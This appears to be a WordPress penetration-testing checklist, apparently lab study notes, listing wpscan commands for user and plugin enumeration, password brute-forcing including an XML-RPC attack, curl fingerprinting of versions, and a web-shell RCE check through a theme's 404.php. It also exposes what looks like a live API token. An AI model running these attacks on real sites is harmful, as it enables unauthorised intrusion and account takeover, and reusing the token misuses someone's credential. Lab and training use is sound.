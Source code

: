✓ ✗ ✔ ✘ ✅
API Token :  4c8SSanMPgBTRC2hU15g5yFYmQOtzeFqKJECshNg4OU
[ ] - Enumeration : `wpscan --url http://ip:port --enumerate --api-token <api-token>`
[ ] - Enumerate Plugins : `wpscann --url https://domain.com/ --enumerate p`
[ ] - Authentication Attacks : 
	[ ] - Enumerate Users : `wpscan --url https://domain.com/ --enumerate u`
	[ ] - Password Bruteforce : `wpscan --url https:/domain.com/ -U <usernname> -P <path_to_wordlist>.txt`
	[ ] - Visit `https://domain.com/wp-login.php` for credential checking
	[ ] - Check for Authentication Attack on XMLRPC : `wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com`
[ ] - Vulnerability Report : `wpscan --url https://domain.com/ --enumerate p --api-token "api-token"`
[ ] - Directory Indexing : `curl -s -X GET http://blog.inlanefreight.com/wp-content/plugins/mail-masta/ | html2text`
[ ] - Check for RCE : `curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"`
[ ] - To get the Source Version Code, we use the command : `curl -s -X GET http://blog.inlanefreight.com | grep '<meta name="generator"'`
[ ] - To check for the Version Number for Plugins : `curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'wp-content/plugins/*' | cut -d"'" -f2`
[ ] - To check for the Version Number for Themes : `curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2`
[ ] - To perform Plugins Active Enumeration : `curl -I -X GET http://blog.inlanefreight.com/wp-content/plugins/mail-masta`
